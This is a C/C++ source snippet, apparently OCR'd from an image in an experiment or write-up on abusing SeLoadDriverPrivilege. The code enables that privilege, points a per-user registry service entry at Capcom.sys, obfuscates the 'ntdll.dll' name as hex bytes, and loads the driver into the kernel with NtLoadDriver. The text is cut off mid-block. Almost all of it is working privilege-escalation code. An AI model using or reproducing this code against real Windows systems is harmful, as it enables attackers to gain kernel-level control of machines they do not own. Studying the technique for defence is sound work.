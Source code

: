 ```c
int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
	{
		printf("AdjustTokenPrivileges error: %x", GetLastError());
		return FALSE;
	}

	//system("cmd");
	// below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
	std::cout << "[+] Set Registry Keys" << std::endl;
	NTSTATUS st1;
	UNICODE_STRING pPath;
	UNICODE_STRING pPathReg;
	PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
  PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
	const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
	HMODULE hObsolete = GetModuleHandleA(NTDLL);
	*(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
	*(FARPROC *)&NtLoadDriver = GetProcAddress(hObsolete, "NtLoadDriver");
	*(FARPROC *)&NtUnloadDriver = GetProcAddress(hObsolete, "NtUnloadDriver");

	RtlInitUnicodeString(&pPath, pPathSource);
	RtlInitUnicodeString(&pPathReg, pPathSourceReg);
	st1 = NtLoadDriver(&pPathReg);
	std::cout << "[+] value of st1: " << st1 << "\n";
	if (st1 == ERROR_SUCCESS) {
		std::cout << "[+] Driver Loaded as Kernel..\n";
		std::cout << "[+] Press [ENTER] to unload driver\n";
	}

	getchar();
	st1 = NtUnloadDriver(&pPathReg);
	if (st1 == ERROR_SUCCESS) {
```